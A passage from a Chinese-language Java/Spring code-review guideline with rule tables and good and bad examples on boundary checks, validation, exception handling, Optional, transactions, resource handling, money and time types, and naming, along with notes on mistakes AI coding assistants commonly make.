for (int i = 0; i < 3; i++) {
    try {
        return paymentClient.refund(orderId);
    } catch (Exception e) {
        Thread.sleep(1000);
    }
}
throw new IllegalStateException("refund failed");
```

（片段：只截取重試迴圈。應使用專案既有的 Spring Retry／Resilience4j 設定，或 Spring Framework 7 的 `@Retryable`。）

#### 🔍 7.3 審查與驗證

- **自動檢查：** 可以用 ArchUnit 的 `noClasses().should().dependOnClassesThat()` 禁止使用特定類別（例如 `java.util.Date`、自製的 `RetryUtil`），讓 CI 擋下重複的實作。
- **人工審查問題：**
  1. 這個介面或抽象類別有幾個實作？若只有一個，抽象層是否必要？
  2. 這段程式碼做的事情，框架或專案中是否已經有現成的功能？
- **AI 常見錯誤：** AI 傾向產生「教科書式」的完整設計：介面、抽象類別、工廠、建構器一應俱全，即使需求只有一種情況。AI 也常自己寫重試、快取或驗證，而不知道專案已有現成的工具。

### 7.4 一致性：遵循既有的慣例

一個程式庫中，同一件事應該只有一種做法。如果錯誤處理、日誌格式、DTO 轉換、交易邊界在每個模組都不一樣，每位新成員都要重新學習，審查者也很難判斷「這樣寫是刻意的還是錯誤」。新的做法如果更好，應該經過討論後統一遷移，而不是在單一 PR 中引入第二種做法。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-DES-007` | 應該 | 新程式碼應遵循同一模組既有的慣例（錯誤處理、DTO 轉換、日誌、交易邊界）；要引入新的做法時，應先提出並取得團隊同意，並規劃既有程式碼的遷移 | 👁 程式碼審查 |

```text
❌ CR-DES-007：同一個服務中出現第三種錯誤回應格式
既有：  {"code": "ORDER_NOT_FOUND", "message": "..."}         （GlobalExceptionHandler）
既有：  RFC 9457 Problem Details（新模組，已規劃遷移）
本 PR： {"error": true, "msg": "...", "status": 404}          （新的 Controller 自行處理）
→ 應使用既有的 GlobalExceptionHandler 與 Problem Details，而不是在 Controller 自行組裝回應。
```

#### 🔍 7.4 審查與驗證

- **自動檢查：** 可以用 ArchUnit 規定「所有 `@RestController` 不得宣告 `@ExceptionHandler`」等慣例。
- **人工審查問題：**
  1. 這個模組中類似的功能是怎麼寫的？這個 PR 的寫法一樣嗎？
  2. 如果寫法不同，是有意識地引入更好的做法（有討論紀錄），還是不知道既有慣例？
- **AI 常見錯誤：** AI 依它在訓練資料中看過的「常見寫法」產生程式碼，不一定符合專案的慣例。提供 `copilot-instructions.md`、`CLAUDE.md` 或 `AGENTS.md` 說明專案慣例可以降低這個問題（19.3），但審查時仍要比對。

## 8. 審查重點：功能正確性與錯誤處理

### 8.1 需求符合度與邊界條件

功能正確性是審查最核心的目的，也是 AI 產生的程式碼最需要人工確認的地方。AI 能寫出語法正確、看起來合理的程式碼，但它不知道「已出貨的訂單不能取消」這種業務規則，除非有人告訴它，而且就算告訴了，也不保證每個分支都有處理。

審查邊界條件時，可以用下表逐項檢查每個輸入：

| 類型 | 要檢查的值 | 常見錯誤 |
| --- | --- | --- |
| 空值 | `null`、空字串、只有空白、空集合 | 呼叫方法時拋出 `NullPointerException` |
| 數值邊界 | 0、負數、最大值、最大值＋1、溢位 | `int` 相加溢位；`<` 與 `<=` 寫反 |
| 長度 | 0、1、上限、上限＋1；多位元組字元 | 以位元組計算長度卻以字元限制 |
| 狀態 | 每一種狀態，包括「不可能」的狀態 | `switch` 遺漏新增的列舉值 |
| 重複 | 同一請求送兩次、同一資源被同時修改 | 重複扣款、重複取消 |
| 時間 | 跨日、跨月、閏年、時區、夏令時間 | 以伺服器時區計算「今天」 |

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-001` | 必須 | 審查者必須依本節的邊界表檢查每個新增或修改的輸入與狀態轉換，並確認每個邊界都有處理（拒絕或正確計算）與對應的測試 | 🧪 參數化測試；👁 程式碼審查 |
| `CR-COR-002` | 必須 | 不合法的輸入必須被明確拒絕並回報錯誤，不得悄悄「修正」成其他值（例如把負的頁碼改成 0、把超過上限的筆數改成預設值），除非需求明確要求 | 🧪 單元測試；👁 程式碼審查 |
| `CR-COR-003` | 必須 | 狀態轉換必須集中在領域物件中檢查，並涵蓋所有狀態；以 `switch` 處理列舉時應使用 switch 運算式或模式比對，讓編譯器在新增列舉值時提醒遺漏 | 🤖 javac（switch 運算式需窮舉）；🧪 參數化測試 |

```java
// ✅ CR-COR-003：狀態轉換集中在領域物件；switch 運算式必須窮舉所有狀態，新增狀態時編譯失敗
package com.example.cr.order.domain;

import jakarta.persistence.Column;
import jakarta.persistence.Entity;
import jakarta.persistence.EnumType;
import jakarta.persistence.Enumerated;
import jakarta.persistence.GeneratedValue;
import jakarta.persistence.GenerationType;
import jakarta.persistence.Id;
import jakarta.persistence.Table;
import jakarta.persistence.Version;
import java.math.BigDecimal;
import java.time.Instant;
import java.util.Objects;
import org.hibernate.annotations.CreationTimestamp;

@Entity
@Table(name = "orders")
public class Order {

    public static final int MAX_REASON_LENGTH = 200;

    @Id
    @GeneratedValue(strategy = GenerationType.IDENTITY)
    private Long id;

    @Column(nullable = false)
    private long customerId;

    @Enumerated(EnumType.STRING)
    @Column(nullable = false, length = 20)
    private OrderStatus status;

    @Column(nullable = false, precision = 12, scale = 2)
    private BigDecimal amount;

    @Column(length = MAX_REASON_LENGTH)
    private String cancelReason;

    private Instant cancelledAt;

    @CreationTimestamp
    @Column(nullable = false, updatable = false)
    private Instant createdAt;

    @Version
    private long version;

    protected Order() {
        // JPA
    }

    /** 建立新訂單；金額必須大於 0。 */
    public Order(long customerId, BigDecimal amount) {
        if (amount == null || amount.signum() <= 0) {
            throw new IllegalArgumentException("amount must be positive");
        }
        this.customerId = customerId;
        this.amount = amount;
        this.status = OrderStatus.CREATED;
    }

    /** 取消訂單。只有尚未出貨的訂單可以取消；已出貨的訂單必須走退貨流程（需求 #842）。 */
    public void cancel(String reason, Instant now) {
        Objects.requireNonNull(now, "now");
        if (reason == null || reason.isBlank() || reason.length() > MAX_REASON_LENGTH) {
            throw new IllegalArgumentException("reason must be 1-" + MAX_REASON_LENGTH + " characters");
        }
        status = switch (status) {
            case CREATED, PAID -> OrderStatus.CANCELLED;
            case SHIPPED -> throw new OrderStateException(id, status, "已出貨的訂單只能走退貨流程");
            case CANCELLED -> throw new OrderStateException(id, status, "訂單已取消");
        };
        cancelReason = reason;
        cancelledAt = now;
    }

    public Long getId() {
        return id;
    }

    public long getCustomerId() {
        return customerId;
    }

    public OrderStatus getStatus() {
        return status;
    }

    public BigDecimal getAmount() {
        return amount;
    }

    public String getCancelReason() {
        return cancelReason;
    }

    public Instant getCancelledAt() {
        return cancelledAt;
    }

    public Instant getCreatedAt() {
        return createdAt;
    }
}
```

```java
package com.example.cr.order.domain;

/** 訂單狀態。新增狀態時，Order#cancel 的 switch 運算式會編譯失敗，提醒處理新狀態（CR-COR-003）。 */
public enum OrderStatus {
    CREATED,
    PAID,
    SHIPPED,
    CANCELLED
}
```

```java
package com.example.cr.order.domain;

/** 訂單狀態不允許此操作時拋出，由 Web 層轉為 409 Conflict。 */
public class OrderStateException extends RuntimeException {

    private static final long serialVersionUID = 1L;

    private final Long orderId;
    private final OrderStatus status;

    public OrderStateException(Long orderId, OrderStatus status, String message) {
        super(message);
        this.orderId = orderId;
        this.status = status;
    }

    public Long getOrderId() {
        return orderId;
    }

    public OrderStatus getStatus() {
        return status;
    }
}
```

```markdown
<!-- ✅ CR-COR-001：審查者依邊界表檢查 Order#cancel 後留下的紀錄 -->
**note:** 依 8.1 的邊界表檢查 `cancel(reason, now)`：
- 空值：`reason` 為 null、空字串、只有空白 → 拒絕，`blankReasonIsRejected` 覆蓋 ✅
- 長度：200 字可以、201 字拒絕 → `reasonLengthBoundary` 覆蓋 ✅
- 狀態：CREATED、PAID 可取消；SHIPPED、CANCELLED 拒絕 → switch 運算式窮舉，測試覆蓋 ✅
- 重複：同一張訂單取消兩次 → `cancellingTwiceIsRejected` 覆蓋 ✅
- 同時：兩個請求同時取消 → 由 `@Version` 處理（8.5），但**沒有測試**

**question:** 同時取消的情況可以補一個整合測試嗎？或確認 409 的處理已在 `OrderExceptionHandler` 中？
```

```java
// ❌ CR-COR-002：不合法的輸入被悄悄修正（v2.0 的範例），呼叫端永遠不知道自己傳錯了
public List<User> searchUsers(String keyword, int page, int size) {
    if (keyword == null || keyword.trim().isEmpty()) {
        return Collections.emptyList();          // 空關鍵字回傳空清單，和「沒有符合的使用者」無法區分
    }
    if (page < 0) {
        page = 0;                                // 負的頁碼被改成 0
    }
    if (size <= 0 || size > 100) {
        size = 20;                               // 要求 500 筆卻只回傳 20 筆，呼叫端以為只有 20 筆
    }
    return userRepository.findByKeyword(keyword, PageRequest.of(page, size));
}
```

（片段：只截取方法本體。正確做法是在 DTO 以 `@NotBlank`、`@PositiveOrZero`、`@Max(100)` 宣告，不合法時回 400。）

```java
// ❌ CR-COR-003：以 if 判斷狀態，遺漏 CANCELLED；新增狀態時編譯器不會提醒
public void cancel(String reason) {
    if (status == OrderStatus.SHIPPED) {
        throw new IllegalStateException("shipped");
    }
    status = OrderStatus.CANCELLED;              // 已取消的訂單可以再取消一次，cancelledAt 被覆寫
    cancelReason = reason;                       // reason 沒有檢查 null 與長度
}
```

（片段：只截取方法本體。）

#### 🔍 8.1 審查與驗證

- **自動檢查：** `switch` 運算式（`status = switch (...)`）在列舉新增值時編譯失敗；測試以 `@ParameterizedTest` 搭配 `@EnumSource(OrderStatus.class)` 涵蓋所有狀態（見 10.2 的 `OrderTest`）。
- **人工審查問題：**
  1. 每個參數都依邊界表檢查過了嗎？上限值剛好等於 200 時會怎樣？201 呢？
  2. 每一種狀態的行為都有定義嗎？「不可能發生」的狀態，程式碼的反應是什麼？
  3. 有沒有任何地方悄悄修正了不合法的輸入？
- **AI 常見錯誤：** AI 很少主動處理「重複操作」與「不可能的狀態」；它也喜歡寫出「容錯」的程式碼（把錯誤輸入改成預設值），讓測試通過但隱藏了呼叫端的錯誤。v2.0 的 `@Pattern` 範例（`"^(?=.*[a-z])...[A-Za-z\\d@$!%*?&]"`）就缺少量詞與結尾錨點，會拒絕所有長度大於 1 的密碼，這類正規表示式錯誤必須以測試驗證。

### 8.2 輸入契約

系統的每個入口（HTTP API、訊息佇列、批次檔案）都要定義「什麼輸入是合法的」。以 Bean Validation 在 DTO 上宣告約束，讓框架統一回 400，比在 Service 中寫一堆 `if` 更清楚，也讓 API 文件與實作一致。安全面的輸入驗證見 11.2。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-004` | 必須 | 外部輸入的 DTO 必須以 Bean Validation 宣告約束（必填、長度、範圍、格式），Controller 參數必須加上 `@Valid`／`@Validated`；字串欄位都要有長度上限 | 🧪 `@WebMvcTest` 驗證 400；👁 程式碼審查 |

```java
// ✅ CR-COR-004：輸入契約以 Bean Validation 宣告，上限與領域物件一致
package com.example.cr.order.web;

import com.example.cr.order.domain.Order;
import jakarta.validation.constraints.NotBlank;
import jakarta.validation.constraints.Size;

public record CancelRequest(
        @NotBlank
        @Size(max = Order.MAX_REASON_LENGTH)
        String reason) {
}
```

```java
// ❌ CR-COR-004：沒有 @Valid，DTO 上的約束完全不會被檢查
@PostMapping("/{id}/cancel")
public ResponseEntity<Void> cancel(@PathVariable long id, @RequestBody CancelRequest request) {
    service.cancel(id, currentCustomerId(), request.reason());
    return ResponseEntity.noContent().build();
}
```

（片段：只截取 Controller 方法。）

#### 🔍 8.2 審查與驗證

- **自動檢查：** `@WebMvcTest` 測試送出空白、超長的欄位，必須得到 400（見 10.2 的 `OrderControllerTest`）。
- **人工審查問題：**
  1. 每個 `@RequestBody` 前面都有 `@Valid` 嗎？巢狀物件與集合元素也有 `@Valid` 嗎？
  2. DTO 的長度上限和資料庫欄位長度一致嗎？
- **AI 常見錯誤：** AI 常在 DTO 上加了約束卻忘記 `@Valid`；也常只加 `@NotNull` 而沒有長度上限。

### 8.3 錯誤處理

錯誤處理是 AI 產生的程式碼與新手程式碼最常出錯的地方。最危險的錯誤不是拋出例外，而是**吞掉例外**：程式繼續執行，看起來一切正常，但資料已經錯了。OWASP Top 10:2025 新增的 A10「例外狀況處理不當」（Mishandling of Exceptional Conditions）正是在處理這類問題。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-005` | 必須 | 不得吞掉例外：`catch` 區塊必須重新拋出、轉換為有意義的例外、或完整處理並記錄；不得留下空的 `catch`，也不得只印出例外後繼續執行 | 🤖 PMD `EmptyCatchBlock`；👁 程式碼審查（只印出例外後繼續執行的情況工具抓不到） |
| `CR-COR-006` | 不應該 | 不應在業務程式碼中捕捉 `Exception`、`RuntimeException` 或 `Throwable`；應只捕捉能處理的特定例外，其餘交給全域例外處理器 | 🤖 PMD `AvoidCatchingGenericException` |
| `CR-COR-007` | 應該 | API 的錯誤回應應由全域例外處理器統一轉換（建議使用 RFC 9457 Problem Details），回應中不得包含堆疊追蹤、SQL 或內部類別名稱 | 🧪 `@WebMvcTest` 驗證錯誤回應；👁 程式碼審查 |

```java
// ✅ CR-COR-005、CR-COR-007：Service 不捕捉例外，交給全域處理器轉為 Problem Details
package com.example.cr.order.service;

import com.example.cr.order.domain.Order;
import com.example.cr.order.domain.OrderCancelledEvent;
import com.example.cr.order.domain.OrderNotFoundException;
import com.example.cr.order.persistence.OrderRepository;
import java.time.Clock;
import org.springframework.context.ApplicationEventPublisher;
import org.springframework.stereotype.Service;
import org.springframework.transaction.annotation.Transactional;

@Service
public class OrderCancelService {

    private final OrderRepository orders;
    private final ApplicationEventPublisher events;
    private final Clock clock;

    public OrderCancelService(OrderRepository orders, ApplicationEventPublisher events, Clock clock) {
        this.orders = orders;
        this.events = events;
        this.clock = clock;
    }

    /** 取消顧客自己的訂單；查詢條件包含 customerId，他人的訂單一律視為不存在（CR-SEC-004）。 */
    @Transactional
    public Order cancel(long orderId, long customerId, String reason) {
        Order order = orders.findByIdAndCustomerId(orderId, customerId)
                .orElseThrow(() -> new OrderNotFoundException(orderId));
        order.cancel(reason, clock.instant());
        events.publishEvent(new OrderCancelledEvent(order.getId(), order.getAmount()));
        return order;
    }
}
```

```java
package com.example.cr.order.domain;

/** 訂單不存在或不屬於目前的顧客時拋出，由 Web 層轉為 404。 */
public class OrderNotFoundException extends RuntimeException {

    private static final long serialVersionUID = 1L;

    public OrderNotFoundException(long orderId) {
        super("order not found: " + orderId);
    }
}
```

```java
package com.example.cr.order.domain;

import java.math.BigDecimal;

/** 訂單已取消的領域事件；付款服務依此事件非同步退款（ADR-0042）。 */
public record OrderCancelledEvent(Long orderId, BigDecimal amount) {
}
```

```java
// ✅ CR-COR-007：全域例外處理器，以 Problem Details 回應，不洩漏內部資訊
package com.example.cr.order.web;

import com.example.cr.order.domain.OrderNotFoundException;
import com.example.cr.order.domain.OrderStateException;
import org.springframework.dao.OptimisticLockingFailureException;
import org.springframework.http.HttpStatus;
import org.springframework.http.ProblemDetail;
import org.springframework.web.bind.annotation.ExceptionHandler;
import org.springframework.web.bind.annotation.RestControllerAdvice;
import org.springframework.web.servlet.mvc.method.annotation.ResponseEntityExceptionHandler;

@RestControllerAdvice
public class OrderExceptionHandler extends ResponseEntityExceptionHandler {

    @ExceptionHandler(OrderNotFoundException.class)
    ProblemDetail handleNotFound(OrderNotFoundException ex) {
        ProblemDetail problem = ProblemDetail.forStatusAndDetail(HttpStatus.NOT_FOUND, "找不到訂單");
        problem.setProperty("code", "ORDER_NOT_FOUND");
        return problem;
    }

    @ExceptionHandler(OrderStateException.class)
    ProblemDetail handleState(OrderStateException ex) {
        ProblemDetail problem = ProblemDetail.forStatusAndDetail(HttpStatus.CONFLICT, ex.getMessage());
        problem.setProperty("code", "ORDER_STATE_CONFLICT");
        problem.setProperty("status", ex.getStatus().name());
        return problem;
    }

    /** CR-COR-010：兩個請求同時修改同一張訂單（@Version 衝突）時，後提交的一方得到 409。 */
    @ExceptionHandler(OptimisticLockingFailureException.class)
    ProblemDetail handleConcurrentUpdate(OptimisticLockingFailureException ex) {
        ProblemDetail problem = ProblemDetail.forStatusAndDetail(HttpStatus.CONFLICT, "訂單已被其他人修改，請重新整理後再試");
        problem.setProperty("code", "ORDER_CONCURRENT_UPDATE");
        return problem;
    }
}
```

```java
// ❌ CR-COR-005、CR-COR-006：吞掉例外並回傳「失敗結果」，呼叫端與監控都看不到真正的錯誤
public PaymentResult processPayment(PaymentRequest request) {
    try {
        validatePaymentRequest(request);
        return executePayment(request);
    } catch (Exception e) {                                  // PMD AvoidCatchingGenericException
        log.error("Unexpected error: {}", e.getMessage());   // 沒有記錄堆疊，也不知道是哪一筆付款
        return PaymentResult.failure("SYSTEM_ERROR", "系統錯誤，請聯繫客服");
    }
}
```

（片段：只截取方法本體；這是 v2.0「適當的例外處理」範例的問題所在：`catch (Exception e)` 也會捕捉到程式錯誤，例如 `NullPointerException`，並把它們偽裝成可預期的付款失敗。）

```java
// ❌ CR-COR-005：空的 catch 區塊
try {
    auditClient.record(orderId, "CANCELLED");
} catch (IOException e) {
    // ignore
}
```

（片段：稽核紀錄寫入失敗被完全忽略。若稽核是法規要求，失敗時必須讓交易失敗或寫入可重送的佇列。）

#### 🔍 8.3 審查與驗證

- **自動檢查：** PMD `EmptyCatchBlock`、`AvoidCatchingGenericException`（PMD 7.28 中 `AvoidCatchingGenericException` 歸在 errorprone 類別，舊的 design 類別名稱已標為淘汰；附錄 F.3 以本節的 ❌ 範例確認兩者都會觸發）。注意：SpotBugs 4.10.4 的 `DE_MIGHT_IGNORE` 對本節的空 catch 範例**沒有**報告，不要只依賴 SpotBugs。
- **人工審查問題：**
  1. 每個 `catch` 之後，程式的狀態是一致的嗎？呼叫端知道發生了錯誤嗎？
  2. 錯誤日誌有沒有足夠的資訊（哪一筆資料、哪個操作）與完整的堆疊？
  3. 錯誤回應會洩漏 SQL、類別名稱或堆疊追蹤嗎？
- **AI 常見錯誤：** AI 最常見的錯誤處理模式就是「`try { ... } catch (Exception e) { log.error(...); return null; }`」：讓程式不會崩潰，但把錯誤藏起來。AI 也常把 `@ExceptionHandler(Exception.class)` 加進全域處理器，導致 Spring 原本會回 404、405 的情況全部變成 500。

### 8.4 空值與 Optional

`NullPointerException` 仍是 Java 最常見的執行期錯誤。審查時要確認：可能為空的值有明確標示（`Optional` 或文件），而且呼叫端有處理；不可能為空的值在邊界就被檢查。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-008` | 必須 | 可能找不到結果的查詢方法必須回傳 `Optional`（或空集合），不得回傳 `null`；呼叫端不得直接呼叫 `Optional.get()`，應使用 `orElseThrow` 並提供有意義的例外 | 🤖 SpotBugs `NP_*` 系列；🤖 NullAway（搭配 JSpecify 註解）；👁 程式碼審查 |
| `CR-COR-009` | 不應該 | 不應以「回傳預設值」掩蓋不應該發生的空值（例如姓名為空時回傳 `"UNKNOWN"`）；資料不應為空時，應在建立時檢查並拒絕 | 👁 程式碼審查 |

```java
// ✅ CR-COR-008：查詢回傳 Optional，呼叫端以 orElseThrow 轉成有意義的例外
package com.example.cr.order.persistence;

import com.example.cr.order.domain.Order;
import java.util.Optional;
import org.springframework.data.jpa.repository.JpaRepository;

public interface OrderRepository extends JpaRepository<Order, Long> {

    Optional<Order> findByIdAndCustomerId(long id, long customerId);
}
```

```java
// ❌ CR-COR-009：以預設值掩蓋資料錯誤（v2.0「常見問題快速修正」的範例）
public String getUserName(User user) {
    if (user == null || user.getName() == null) {
        return "UNKNOWN";        // 報表、通知、稽核紀錄都會出現 UNKNOWN，沒有人知道資料壞了
    }
    return user.getName().toUpperCase();
}
```

（片段：只截取方法。若姓名是必填，應在建立 `User` 時拒絕空值；若可以為空，型別應明確表達，例如 `Optional<String> displayName()`。）

#### 🔍 8.4 審查與驗證

- **自動檢查：** SpotBugs 的 `NP_NULL_ON_SOME_PATH` 等規則；若專案使用 JSpecify 的 `@Nullable`／`@NullMarked` 搭配 NullAway，CI 可在編譯期找出空值錯誤。
- **人工審查問題：**
  1. 回傳 `null` 的方法，所有呼叫端都有處理嗎？
  2. `"UNKNOWN"`、`0`、`""` 這類預設值，是業務需求還是為了避免 NPE？
- **AI 常見錯誤：** AI 常在每個地方加上 `if (x != null)` 的防禦性檢查，讓真正的資料錯誤被默默略過；也常寫出 `optional.get()` 或 `optional.isPresent() ? optional.get() : null`。

### 8.5 併發與交易

併發錯誤在單元測試中幾乎不會出現，只會在正式環境的尖峰時段偶爾發生，是審查最需要專注的類型。常見的問題有：兩個請求同時修改同一筆資料（後寫入的覆蓋前者）、交易邊界錯誤（部分更新被提交）、在交易中呼叫外部服務（鎖被長時間持有）。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-010` | 必須 | 可能被同時修改的實體必須有併發控制（JPA `@Version` 樂觀鎖，或明確的悲觀鎖），並處理衝突（`OptimisticLockingFailureException` 轉為 409 或重試） | 🧪 併發測試；👁 程式碼審查 |
| `CR-COR-011` | 必須 | 交易邊界放在 Service 的公開方法；不得依賴同一類別內部呼叫（self-invocation）觸發 `@Transactional`，也不得在 `private` 方法上標註 `@Transactional`（代理不會生效） | 🧪 整合測試（中途失敗時確認全部回滾）；👁 程式碼審查 |
| `CR-COR-012` | 不應該 | 不應在資料庫交易中同步呼叫外部服務（HTTP、訊息佇列的同步確認）；應在交易提交後再呼叫，或使用 outbox 模式 | 👁 程式碼審查；🧪 整合測試 |

```java
// ❌ CR-COR-011：同類別內部呼叫，@Transactional 不會生效；cancelAll 中途失敗時，前面的訂單已被各自提交
@Service
public class BulkCancelService {

    public void cancelAll(List<Long> ids, long customerId, String reason) {
        for (Long id : ids) {
            cancelOne(id, customerId, reason);        // self-invocation，不經過 Spring 代理
        }
    }

    @Transactional
    public void cancelOne(long id, long customerId, String reason) {
        // ...
    }
}
```

（片段：只截取類別結構。應把 `@Transactional` 放在 `cancelAll`，或把 `cancelOne` 移到另一個 Bean。）

```java
// ❌ CR-COR-012：在交易中同步呼叫付款服務，付款服務變慢時，訂單資料列被鎖住直到逾時
@Transactional
public void cancel(long orderId, long customerId, String reason) {
    Order order = orders.findByIdAndCustomerId(orderId, customerId).orElseThrow();
    order.cancel(reason, clock.instant());
    paymentClient.refund(orderId, order.getAmount());   // 外部 HTTP 呼叫，P99 1.8 秒
}
```

（片段：只截取方法。正確做法見 8.3 的 `OrderCancelService`：在交易內發布領域事件，由 `@TransactionalEventListener(phase = AFTER_COMMIT)` 或 outbox 轉送。）

#### 🔍 8.5 審查與驗證

- **自動檢查：** 有 `@Version` 的實體可以用整合測試模擬兩個交易同時修改，確認第二個得到 `OptimisticLockingFailureException`。
- **人工審查問題：**
  1. 這筆資料會不會被兩個請求同時修改？（同一位使用者連點兩次、批次與線上同時執行）
  2. `@Transactional` 標在哪裡？方法是 `public` 嗎？是被其他 Bean 呼叫的嗎？
  3. 交易中有沒有 HTTP 呼叫、檔案操作或 `Thread.sleep`？
- **AI 常見錯誤：** AI 幾乎不會主動加上 `@Version`；也常把 `@Transactional` 加在 `private` 方法或 Controller 上，或在交易中呼叫外部 API。

### 8.6 資源管理

檔案、串流、資料庫連線、HTTP 回應等資源用完必須釋放。Java 的 `try-with-resources` 能保證資源在任何情況下都被關閉。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-013` | 必須 | 實作 `AutoCloseable` 的資源必須以 `try-with-resources` 管理（由框架管理生命週期的除外）；讀寫文字檔必須明確指定編碼 | 🤖 PMD `CloseResource`；🤖 SpotBugs `OBL_UNSATISFIED_OBLIGATION`、`OS_OPEN_STREAM`；👁 編碼是否明確指定 |

```java
// ✅ CR-COR-013：以 try-with-resources 管理資源，並明確指定編碼
package com.example.cr.order.service;

import java.io.BufferedReader;
import java.io.IOException;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.util.ArrayList;
import java.util.List;

public final class CancelReasonImporter {

    private CancelReasonImporter() {
    }

    /** 讀取每行一個原因的 UTF-8 檔案，略過空行。 */
    public static List<String> readReasons(Path file) throws IOException {
        List<String> reasons = new ArrayList<>();
        try (BufferedReader reader = Files.newBufferedReader(file, StandardCharsets.UTF_8)) {
            String line;
            while ((line = reader.readLine()) != null) {
                if (!line.isBlank()) {
                    reasons.add(line.strip());
                }
            }
        }
        return reasons;
    }
}
```

```java
// ❌ CR-COR-013：資源沒有關閉，也沒有明確指定編碼（v2.0 的範例）
public String readFile(String path) throws IOException {
    FileReader reader = new FileReader(path);          // 沒有指定編碼；例外時 reader 不會被關閉
    char[] buffer = new char[1024];
    int n = reader.read(buffer);
    return new String(buffer, 0, n);                   // 只讀了前 1024 個字元，n 為 -1 時拋出例外
}
```

（片段：只截取方法。）

#### 🔍 8.6 審查與驗證

- **自動檢查：** PMD `CloseResource`；SpotBugs `OBL_UNSATISFIED_OBLIGATION`、`OS_OPEN_STREAM`（附錄 F.3 以本節的 ❌ 範例確認三者都會觸發）。Java 18 起預設編碼為 UTF-8（JEP 400），SpotBugs 4.10.4 對 `new FileReader(path)` 已不再報告 `DM_DEFAULT_ENCODING`；明確指定編碼仍是好習慣，但需要人工確認。
- **人工審查問題：**
  1. 每個 `new FileInputStream`、`getConnection()`、`openStream()` 都在 `try-with-resources` 中嗎？
  2. 讀檔的邏輯能處理空檔案、超大檔案與部分讀取嗎？
- **AI 常見錯誤：** AI 有時會在 `try-with-resources` 中回傳尚未讀取的串流（例如回傳 `Stream<String>` 但檔案已被關閉）；也常一次把整個檔案讀進記憶體。

### 8.7 金額、時間與數值

金額與時間的錯誤通常不會讓程式崩潰，而是產生「看起來合理但錯誤」的結果：差一分錢的帳、差一天的到期日。

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-COR-014` | 必須 | 金額必須使用 `BigDecimal`（或以最小貨幣單位的 `long`），不得使用 `double`／`float`；`BigDecimal` 必須以字串或 `valueOf` 建立，除法必須指定 `RoundingMode` | 🤖 SpotBugs `DMI_BIGDECIMAL_CONSTRUCTED_FROM_DOUBLE`；🤖 PMD `AvoidDecimalLiteralsInBigDecimalConstructor` |
| `CR-COR-015` | 應該 | 需要「現在時間」的程式碼應注入 `java.time.Clock`，不直接呼叫 `Instant.now()`／`LocalDate.now()`，讓測試能控制時間；日期計算必須明確指定時區 | 🧪 以 `Clock.fixed` 的單元測試；👁 程式碼審查 |

```java
// ✅ CR-COR-015：Clock 以 Bean 注入，測試時替換為 Clock.fixed
package com.example.cr.order.config;

import java.time.Clock;
import org.springframework.context.annotation.Bean;
import org.springframework.context.annotation.Configuration;

@Configuration
public class ClockConfig {

    @Bean
    Clock clock() {
        return Clock.systemUTC();
    }
}
```

```java
// ❌ CR-COR-014：以 double 計算金額，並以 double 建立 BigDecimal
double total = 0.1 + 0.2;                              // 0.30000000000000004
BigDecimal fee = new BigDecimal(0.1);                  // 0.1000000000000000055511151231257827...
BigDecimal perItem = amount.divide(BigDecimal.valueOf(3));   // 無法整除時拋出 ArithmeticException
```

（片段：三行獨立的錯誤。應寫成 `new BigDecimal("0.1")`、`amount.divide(BigDecimal.valueOf(3), 2, RoundingMode.HALF_UP)`。）

#### 🔍 8.7 審查與驗證

- **自動檢查：** SpotBugs `DMI_BIGDECIMAL_CONSTRUCTED_FROM_DOUBLE`；PMD `AvoidDecimalLiteralsInBigDecimalConstructor`；可以用 ArchUnit 禁止 `domain` 套件呼叫 `Instant.now()`。
- **人工審查問題：**
  1. 金額欄位的型別是什麼？除法、分攤、匯率換算的捨入方式符合業務規則嗎？
  2. 「今天」、「本月」是以哪個時區計算？伺服器時區與使用者時區不同時結果正確嗎？
- **AI 常見錯誤：** AI 在範例程式中經常使用 `double price`；處理日期時常使用 `LocalDateTime.now()`（隱含伺服器時區）或舊的 `java.util.Date`。

## 9. 審查重點：可讀性與可維護性

程式碼被閱讀的次數遠多於被撰寫的次數。審查是確保程式碼「其他人也看得懂」的唯一時機：作者自己永遠看得懂自己剛寫的程式碼，只有審查者能以第一次看到的眼光判斷它是否清楚。Google 的審查實務把這點說得很直接：**如果審查者看不懂，那就是程式碼的問題**，作者應該讓程式碼更清楚，而不是在審查中解釋。

### 9.1 命名

| 編號 | 等級 | 規則 | 驗證方式 |
| --- | --- | --- | --- |
| `CR-MNT-001` | 必須 | 類別、方法、變數的名稱必須表達用途與意圖，遵循語言慣例（Java：類別 `PascalCase`、方法與變數 `camelCase`、常數 `UPPER_SNAKE_CASE`）；不得使用無意義的縮寫或單一字母（迴圈索引除外） | 🤖 Checkstyle `TypeName`、`MethodName`、`ConstantName`、`LocalVariableName`；👁 名稱是否表達意圖 |
| `CR-MNT-002` | 應該 | 審查者看不懂名稱的意思時，應要求作者改名，而不是要求加註解；布林值以 `is`／`has`／`can` 開頭，方法名稱以動詞開頭 | 👁 程式碼審查 |

```java
// ✅ CR-MNT-001：名稱表達用途；常數說明數值的意義
package com.example.cr.order.service;

import java.time.Duration;
import java.time.Instant;

public final class CancellationPolicy {

    /** 付款後超過此期間就不能由顧客自行取消，需聯絡客服。 */
    public static final Duration SELF_SERVICE_CANCEL_WINDOW = Duration.ofHours(24);

    private CancellationPolicy() {
    }

    public static boolean isWithinSelfServiceWindow(Instant paidAt, Instant now) {
        return !now.isAfter(paidAt.plus(SELF_SERVICE_CANCEL_WINDOW));
    }
}
```

```java
// ❌ CR-MNT-001：名稱沒有意義、不符合慣例（v2.0 的反例，改為可被 Checkstyle 偵測的寫法）
public class order_util {                              // Checkstyle TypeName
    public static final int max = 24;                  // Checkstyle ConstantName；24 是什麼？
    public static boolean chk(Instant p, Instant n) {  // chk、p、n 沒有意義
        return !n.isAfter(p.plusSeconds(max * 3600L));
    }
}
```

（片段：省略 import。）

```markdown
